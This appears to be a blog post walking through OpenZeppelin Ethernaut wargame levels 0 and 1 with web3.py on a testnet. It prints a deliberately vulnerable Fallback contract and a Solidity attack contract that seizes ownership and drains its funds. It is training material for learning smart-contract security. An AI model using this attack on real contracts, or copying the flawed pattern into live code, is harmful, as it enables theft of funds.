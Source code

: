 ```yaml
---
layout: post
title:  Ethernaut Challenges with web3.py
date:   2023-01-22 11:50:16 +0100
categories: init
post_id: 2
---
```


This is a fast-paced walkthrough of the ethernaut challenges using web3.py. The goal is to get you up and running with web3.py and the ethernaut challenges as quickly as possible. If you want to learn more about web3.py, check out the [web3.py documentation](https://web3py.readthedocs.io/en/stable/).

## Setup

```python
# setup connection to test net
from web3 import Web3

# connect to a local net
l_net = Web3(Web3.HTTPProvider("http://127.0.0.1:8545"))

# connect to goerli network
g_net = Web3(Web3.HTTPProvider("https://rpc.ankr.com/eth_goerli"))

g_net.isConnected()

```

```bash
True
```

- ## [Level 0](https://ethernaut.openzeppelin.com/level/0xBA97454449c10a0F04297022646E7750b8954EE8) - Hello Ethernaut

`Difficulty Level: 0/5`

### level_0 task

This level is a sanity check to make sure you understand how to interact with a smart contract.

### solution

```python
# contract address, can be obtained from the browser console
# with: contract.address
contract_addr = "0xC63C2947fcaf80d13D40742A52fF5122fec5B171"

# contract abi, obtain from browser with: contract.abi 
contract_abi = '[{ redacted due to size }]'

hello_contract = g_net.eth.contract(address=contract_addr, abi=contract_abi)

hello_contract.functions.info().call()

```

```bash
'You will find what you need in info1().'
```

```python
# from the output above, we know we have to make a call
# to info1()
hello_contract.functions.info1().call()
```

```bash
'Try info2(), but with "hello" as a parameter.'
```

```python
# calling info2(), with 'hello' parameter
hello_contract.functions.info2('hello').call()
```

```bash
'The property infoNum holds the number of the next info method to call.'
```

```python
hello_contract.functions.infoNum().call()
```

```bash
42
```

```python
hello_contract.functions.info42().call()
```

```bash
'theMethodName is the name of the next method.'
```

```python
hello_contract.functions.theMethodName().call()
```

```bash
'The method name is method7123949.'
```

```python
hello_contract.functions.method7123949().call()
```

```bash
'If you know the password, submit it to authenticate().'
```

```python
hello_contract.functions.password().call()
```

```bash
'ethernaut0'
```

```python
hello_contract.functions.authenticate('ethernaut0').call()
```

submit the contract and challenge solved.

- ## [Level 1](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F) - Fallback

`Difficulty Level: 1/5`

### level_1 Task

Look carefully at the contract's code below. You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

### level_1 Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;

        if(contributions[msg.sender] > contributions[owner]){
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }

}

```

### level_1 Solution

`fallback_attack.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./fallback.sol";

contract AttackFallback {

    Fallback public fallbackContract;

    constructor(address fallbackContractAddress) {
        fallbackContract = Fallback(payable(fallbackContractAddress));
    }

    function makeContribution() public {
        fallbackContract.contribute{value: 3 wei}();
    }

    function getContribution() public view returns (uint) {
        return fallbackContract.getContribution();
    }

    function ownTheContract() public {
        payable(address(fallbackContract)).transfer(3 wei);
    }

    function lootContract() public {
        fallbackContract.withdraw();
    }

    receive() external payable {
        return ;
    }
}

```
